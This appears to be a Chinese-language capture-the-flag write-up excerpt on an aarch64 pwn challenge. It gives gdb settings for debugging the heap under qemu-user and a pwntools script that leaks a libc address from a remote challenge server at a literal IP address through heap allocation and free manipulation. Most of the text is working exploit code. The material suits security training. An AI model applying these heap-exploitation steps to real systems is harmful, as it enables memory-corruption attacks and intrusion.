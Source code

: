 ## 堆调试

- 首先可以断到free函数来观察保存参数的X0寄存区获得堆的地址
- 另外qemu-user的guest程序在同一个环境下堆的地址是固定的
- 所以每次都用这个地址观察堆即可

```
file ./pwn
set architecture aarch64
b * 0x40000012f4
target remote :1234 
```

## 泄露libc

```python
from pwn import *
context(arch='aarch64',log_level='debug')
#io = process(["qemu-aarch64","-g","1234","-L",".","./pwn"])
#io = process(["qemu-aarch64","-L",".","./pwn"])
io = remote('8.140.179.11', 13422)
data_arr    = []

pack        = lambda op, *args       :  (op + ''.join(p8(i) for i in args))
init_map    = lambda x,y             :  (pack("M", x, y))
add_over    = lambda x,y             :  (pack("+", x, y,0x02))
free        = lambda x,y             :  (pack("/", x, y))
malloc2     = lambda x,y,size,data   :  (pack("*", x, y,size & 0xFF,size >> 8),data_arr.append(data))
malloc      = lambda x,y,size,data   :  (malloc2(x,y,size,data)[0])
uu64        = lambda data   :u64(data.ljust(8, b'\0'))

payload  = init_map(0x10,0x10)
payload += add_over(0x0f,0x08)
payload += malloc(0x01,0x01,0x10,"")
payload += malloc(0x02,0x01,0x10,"")
payload += malloc(0x03,0x01,0x10,"")
payload += malloc(0x04,0x01,0x10,"")
payload += free(0x03,0x01)
payload += free(0x02,0x01)
payload += 'd'*8+'sw'*21+'s'*16
payload += free(0x01,0x01)
payload += malloc(0x02,0x01,0x30,'a'*31)
payload += 'p'

io.sendlineafter('>', payload)
sleep(0.1)

for i in data_arr:
    io.sendline(i)
    sleep(0.1)

io.recvline()
io.recvline()
libc = uu64(io.recv(3))+0x4000000000-0x15d4d0
log.success(hex(libc))
io.interactive()
```
